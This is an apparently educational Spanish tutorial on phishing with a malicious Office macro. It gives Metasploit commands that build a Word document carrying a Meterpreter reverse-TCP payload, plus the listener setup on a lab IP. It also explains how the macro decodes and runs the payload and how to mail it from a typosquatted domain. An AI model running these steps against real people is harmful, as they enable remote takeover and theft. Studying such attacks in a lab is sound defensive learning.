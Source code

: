 # Objetivos de aprendizaje

- Entender como funciona un ataque de phising
- Descubrir como los macros del documentos puedes usarse y abusar
- Aprender como realizar un ataque de phishing con una macro

# Phishing

Como todos sabemos en el término de seguridad los humanos somos el eslabón más débil, ¿Qué es más fácil buscar una vulnerabilidad en un sistema detras de un firewall o convender a alguien de abrir un documento "importante"?

Phishing es como la palabra pescar, sin embargo, el atacante no se come luego el pesado jiji, bueno, Phishing funciona mandando un "bait" normalmente a un grupo de usuarios. El atacante crea mensajes dependiendo de la urgencia, del target para que tomen medidas inmediatas, incrementando los chances. El proposito realmente es robar información personal o instalar un malware, normalmente se convence a la víctima a utilizar un formulario, abrir un archivo  o clickar en un link

# Macros

Una macro se refiere una instrucción programada diseñada para automatizar tareas repetitivas. Office, te ayudan a crear macros en el documento. En muchos casos, estos macros son características que pueden quitar mucho tiempo. Sin embargo en ciber seguridad estos programas pueden llevar dentro propositos maliciosos.

Para añadir una macro dentro de un documento de Word, nos iremos a menu de ver seleccionaremos Macros y se nos abrira, especificaremos el archivo en cuestión y crearemos

![image](https://github.com/user-attachments/assets/427c5c19-bef5-4730-a38c-fecb78620d05)

Vamos a explorar como un atacante crea un documento y lo utiliza para ganar acecso a un sistema

# Plan de ataque

En este plan necesitamos crear un documento malicioso. Al abrir el documento, la macro se ejecute el payload conectado en la máquina y no se un control remoto. Posteirormente, necesitaremos estar escuchando las conexiones de dicha maquina antes de mandar dicho documento. Para ejecutar el macro utilizaremos una rev shell, utilizada para ejecutar comandos remotamente.

- Crear un documento con la redirección maliciosa
- Estar a la escucha de conexiónes

# Crear un documento malicioso

El primer paso es crear dicho documento en m icaso utilizare metasploit

```
msfconsole

set payload windows/meterpreter/reverse_tcp

use exploit/multi/fileformat/office_word_macro

set LHOST (nuestra ip)

set LPORT (puero en cuestión)

exploit

exit
```

![image](https://github.com/user-attachments/assets/5b71c7e4-9e7b-4ca2-b26e-3888a882c7e2)

![image](https://github.com/user-attachments/assets/f6898de8-42bd-4882-ae4c-019a5828a97a)

![image](https://github.com/user-attachments/assets/ebfdef6d-9d02-45a1-a9bc-841dfe1537c8)

Como podemos ver se nos ha guardado en /root/.msf4/local/msf.docm

# Como se ve el dcumento

1. AutoOpen() desencadena la macro automaticamente cuando el word se abre. Busca alrededor del documento y sus propiedaes, ve el contenido de "comentario" y los datos son codificados en base64 y automaticamente se genera el payload
2. Base64Decode() convierte el payload en su forma originar y en este caso es un ejecutable MS WIndows
3. ExecuteforWindows() Ejecuta el payload temporalmente. Se conecta a la IP anteriormente utilizada

![image](https://github.com/user-attachments/assets/0a68d568-f04b-4039-9599-773d1474db6a)

Los comentarios:

![image](https://github.com/user-attachments/assets/5fd990d7-93b6-4bfe-a2b8-eca9f604c112)

Si copias el comentario de base 64 puedes convertirlo en su archivo original usando base64

```
base64 -d payload.txt > payload_decodificado.txt
```

Si deseas comprobar exactmaente lo que hace el archivo puedes meterlo a VirusTotal

![image](https://github.com/user-attachments/assets/fc2577c6-871f-47a2-bcdc-08cd9bfa7b79)

# Escuchar las conexiones

- Abriremos la consola y ejecutaremos msfconsole:

```
use multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 10.10.204.2

set LPORT 8888

show options

exploit
```

![image](https://github.com/user-attachments/assets/5e923153-3dfd-442c-8468-200cf3b00dfb)

![image](https://github.com/user-attachments/assets/f106cfd6-48d6-4a38-8703-aed128335206)

![image](https://github.com/user-attachments/assets/6357d38d-a6ed-4f37-9344-1510f60c826c)

# Email con el contenido malicioso

Ahora que dicho documento esta creado. Todo lo que necesitamos es mandar el target del usuario. Es tiempo para mandar un email

Esta tecnica es conocida como "typosquatticg" donde los atacantes se crean un dominio identico al legitimo para jugar con las victimas

por ejemplo

marta@nodo313.net

info@nodo313.net

Una vez estes dentro del email, primero cogeremos y cambiaremos el nombre de dicho documento

![image](https://github.com/user-attachments/assets/76a7071f-96dc-43fe-a059-d78c11ce1475)

Una vez hecho esto prepararemos un correo 

![image](https://github.com/user-attachments/assets/4de93a85-013d-4e55-a634-efd18c277aee)

![image](https://github.com/user-attachments/assets/0c0cbf8c-4285-4cd1-b1aa-11f56e4c9192)

Así es como se vería

![image](https://github.com/user-attachments/assets/d0cb9b87-9cd5-4334-9b39-392d88938920)

Obviamente para dejar claro, que seguramente esto en un entorno real, no pase ni el correo electrónico, se puede utilizar pngs o etc, y a la hora de abrir el archivo os salga alguna cosita de que tiene macros, pero como arprendizaje bien genial un saludo. 



